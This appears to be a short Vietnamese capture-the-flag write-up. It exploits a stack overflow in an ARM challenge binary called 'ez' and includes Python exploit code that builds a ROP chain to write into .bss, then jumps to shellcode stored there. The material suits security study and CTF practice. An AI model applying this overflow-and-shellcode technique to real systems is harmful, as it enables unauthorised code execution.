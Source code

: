 Đề cho ta file **ez** ARM</br>
![image](https://user-images.githubusercontent.com/23306492/40377949-5ffd91d4-5e1c-11e8-9387-96e85cce524d.png)</br>
disable toàn bộ</br>
![image](https://user-images.githubusercontent.com/23306492/40377995-7dfa49a2-5e1c-11e8-9bd7-c8fe8c856715.png)</br>
Hàm `main` ta thấy lỗi ở đây là stack overflow</br>
![image](https://user-images.githubusercontent.com/23306492/40378321-6b083c36-5e1d-11e8-8719-0709df31c667.png)
</br>
Với bài này ta cần ghi shellcode và jump về địa chỉ shellcode</br>
Trước tiên ta cần ROP để có thể input vào bss</br>
```
pop_r3_pc = 0x102f0
bss = 0x21028
main = 0x10421
payload = 'A'*20
payload += p32(bss)
payload += p32(pop_r3_pc)
payload += p32(bss)
payload += p32(main)
r.sendline(payload)
````
 Sau đó quay trở lại `mov  R1,R3`và input lại lần 2 để có thể jump đến shellcode_address</br>
![image](https://user-images.githubusercontent.com/23306492/40378386-966751e6-5e1d-11e8-873e-ce9ef22351b8.png)</br>
```
payload = 'A'*28
payload += p32(bss+0x20)
payload += shellcode
r.sendline(payload)
```
[payload](url)</br>
![image](https://user-images.githubusercontent.com/23306492/40378289-4eece8d0-5e1d-11e8-8cef-2e473f5e03f5.png)
